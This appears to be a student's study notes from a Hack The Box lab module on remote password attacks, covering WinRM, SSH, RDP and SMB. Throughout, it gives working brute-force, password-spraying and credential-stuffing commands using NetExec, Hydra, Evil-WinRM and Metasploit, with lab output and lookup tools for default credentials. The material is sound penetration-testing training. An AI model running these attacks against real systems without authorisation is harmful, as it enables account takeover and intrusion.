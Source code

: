 ```yaml
---
Title: HTB\Password Attacks\Remote Password Attacks
tags:
  - os/windows
  - os/linux- cybersec
source: HTB\Password Attacks\Remote Password Attacks
---
```


# HTB\Password Attacks\Remote Password Attacks

> Źródło: `HTB\Password Attacks\Remote Password Attacks`

### WinRM
Windows Remote Management (WinRM) is the Microsoft implementation of the Web Services Management Protocol (WS-Management).
It is a network protocol based on XML web services using the Simple Object Access Protocol (SOAP) used for remote management of Windows systems.
It takes care of the communication between Web-Based Enterprise Management (WBEM) and the Windows Management Instrumentation (WMI),
which can call the Distributed Component Object Model (DCOM).
By default, WinRM uses the TCP ports 5985 (HTTP) and 5986 (HTTPS).

A handy tool that we can use for our password attacks is NetExec (https://github.com/Pennyw0rth/NetExec),
which can also be used for other protocols such as SMB, LDAP, MSSQL, and others.
We recommend reading the official documentation(https://www.netexec.wiki/) for this tool to become familiar with it.

### NetExec
The general format for using NetExec is as follows:
```bash
Ovas420@htb[/htb]$ netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```


As an example, this is what attacking a WinRM endpoint might look like:
```bash
Ovas420@htb[/htb]$ netexec winrm 10.129.42.197 -u user.list -p password.list



WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```
The appearance of (Pwn3d!) is the sign that we can most likely execute system commands if we log in with the brute-forced user.
Another handy tool that we can use to communicate with the WinRM service is Evil-WinRM (https://github.com/Hackplayers/evil-winrm),
which allows us to communicate with the WinRM service efficiently.

Evil-WinRM Usage
```bash
Ovas420@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
Ovas420@htb[/htb]$ evil-winrm -i 10.129.42.197 -u user -p password
Evil-WinRM shell v3.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\user\Documents>
```

If the login was successful, a terminal session is initialized using the Powershell Remoting Protocol (MS-PSRP), which simplifies the operation and execution of commands.

### SSH
This service uses three different cryptography operations/methods: symmetric encryption, asymmetric encryption, and hashing.
Symmetric encryption uses the same key for encryption and decryption. Anyone who has access to the key could also access the transmitted data.
Therefore, a key exchange procedure is needed for secure symmetric encryption.
The Diffie-Hellman key exchange method is used for this purpose.

Asymmetric encryption uses two keys: a private key and a public key.
The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key.

The hashing method converts the transmitted data into another unique value.
SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.

We can use a tool like Hydra to brute force SSH.
Ovas420@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

To log in to the system via the SSH protocol, we can use the OpenSSH client, which is available by default on most Linux distributions.
Ovas420@htb[/htb]$ ssh user@10.129.42.197

RDP
Microsoft's Remote Desktop Protocol (RDP) is a network protocol that allows remote access to Windows systems via TCP port 3389 by default.
RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization

We can also use Hydra to perform RDP bruteforcing.
```bash
Ovas420@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
```


Linux offers different clients to communicate with the desired server using the RDP protocol.
These include Remmina, xfreerdp, and many others. For our purposes, we will work with xfreerdp.

### xFreeRDP
```bash
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

### SMB
Server Message Block (SMB) is a protocol responsible for transferring data between a client and a server in local area networks.
It is used to implement file and directory sharing and printing services in Windows networks.
SMB is often referred to as a file system, but it is not. SMB can be compared to NFS for Unix and Linux for providing drives on local networks.

SMB is also known as Common Internet File System (CIFS).
It is part of the SMB protocol and enables universal remote connection of multiple platforms such as Windows, Linux, or macOS.
In addition, we will often encounter Samba, which is an open-source implementation of the above functions.
For SMB, we can also use hydra again to try different usernames in combination with different passwords.

### Hydra - SMB
```bash
Ovas420@htb[/htb]$ hydra -L user.list -P password.list smb://10.129.42.197
```

However, we may also get the following error describing that the server has sent an invalid reply.
```bash
[ERROR] invalid reply from target smb://10.129.42.197:445/
```

This is because we most likely have an outdated version of THC-Hydra that cannot handle SMBv3 replies.
To work around this problem, we can manually update and recompile hydra or use another very powerful tool, the Metasploit framework.

### Metasploit
```bash
Ovas420@htb[/htb]$ msfconsole -q
msf6 > use auxiliary/scanner/smb/smb_login
```


Now we can use NetExec again to view the available shares and what privileges we have for them.
```bash
Ovas420@htb[/htb]$ netexec smb 10.129.42.197 -u "user" -p "password" --shares

SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC
```


To communicate with the server via SMB, we can use, for example, the tool smbclient(https://www.samba.org/samba/docs/current/man-html/smbclient.1.html).
This tool will allow us to view the contents of the shares, upload, or download files if our privileges allow it.
```bash
Ovas420@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```

Spraying Stuffing and Defaults
Password spraying is a type of brute-force attack in which an attacker attempts to use a single password across many different user accounts.
This technique can be particularly effective in environments where users are initialized with a default or standard password.
For example, if it is known that administrators at a particular company commonly use ChangeMe123! when setting up new accounts,
it would be worthwhile to spray this password across all user accounts to identify any that were not updated.

Depending on the target system, different tools may be used to carry out password spraying attacks.
For web applications, Burp Suite is a strong option, while for Active Directory environments, tools such as NetExec or Kerbrute are commonly used.

```bash
netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'
```


Credential stuffing is another type of brute-force attack in which an attacker uses stolen credentials from one service to attempt access on others.
Since many users reuse their usernames and passwords across multiple platforms (such as email, social media, and enterprise systems), these attacks are sometimes successful.
As with password spraying, credential stuffing can be carried out using a variety of tools, depending on the target system.
For example, if we have a list of username:password credentials obtained from a database leak,
we can use hydra to perform a credential stuffing attack against an SSH service using the following syntax:
```bash
Ovas420@htb[/htb]$ hydra -C user_pass.list ssh://10.100.38.23
```


Many systems—such as routers, firewalls, and databases—come with default credentials.
While best practice dictates that administrators change these credentials during setup, they are sometimes left unchanged, posing a serious security risk.
While several lists of known default credentials are available online, there are also dedicated tools that automate the process.
One widely used example is the Default Credentials Cheat Sheet, which we can install with pip3.
```bash
Ovas420@htb[/htb]$ pip3 install defaultcreds-cheat-sheet
```

Once installed, we can use the creds command to search for known default credentials associated with a specific product or vendor.

```bash
Ovas420@htb[/htb]$ creds search linksys
```


Default credentials cheat list: https://github.com/ihebski/DefaultCreds-cheat-sheet

**Powiązane:** [[Graph-Home]] [[OS-Windows]] [[OS-Linux]]

